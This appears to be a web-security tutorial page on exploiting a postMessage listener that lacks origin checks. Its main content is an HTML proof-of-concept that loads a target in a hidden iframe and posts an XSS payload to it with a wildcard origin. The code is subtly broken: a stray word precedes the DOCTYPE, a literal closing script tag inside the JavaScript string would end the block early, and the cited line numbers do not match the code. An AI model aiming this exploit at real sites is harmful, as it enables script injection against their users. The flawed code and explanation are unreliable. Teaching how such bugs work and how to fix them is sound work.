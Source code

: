     <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Exploitation Process**

1. **Understanding the Vulnerable Code:**
   * The parent window is listening for messages, but without verifying the sender's origin. This opens up the possibility of an attacker sending malicious data to the parent window.
2.  **Secure Implementation:**

    * A secure implementation would involve verifying the origin of the sender by comparing it with an acceptable origin. This prevents unauthorized messages from being processed.

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
3. **Exploit Development:**
   * **HTML Structure:**
     * Create an HTML page with a submit button.
     * Load the vulnerable application in an `iframe`.
   * **Exploit Function:**
     * Define a `payload` containing the malicious JavaScript code.
     * Use the `contentWindow` property to access the `iframe`'s window object.
     * Send the payload to the `iframe` using `postMessage()`.

```html
vulnerable<!DOCTYPE html>
<html>
<head>
    <title>PostMessage Exploit</title>
</head>
<body>
    <h1>Exploit PostMessage Vulnerability</h1>
    <iframe id="targetFrame" src="https://vulnerable-nodejs-app.com" style="display:none;"></iframe>
    <button onclick="exploit()">Click to Exploit</button>

    <script>
        function exploit() {
            // Malicious payload
            var payload = "<script>alert('XSS via postMessage')</script>";

            // Accessing the iframe's content window
            var iframe = document.getElementById('targetFrame').contentWindow;

            // Sending the payload to the iframe
            iframe.postMessage(payload, "*");
        }
    </script>
</body>
</html>
```

* **Explanation:**
  * **Line 7:** The `payload` contains a malicious script designed to trigger an XSS attack.
  * **Line 8:** The `contentWindow` property allows access to the `iframe`'s window object, enabling manipulation of its DOM.
  * **Line 9:** The `postMessage()` method sends the malicious payload to the `iframe`, exploiting the lack of origin validation.
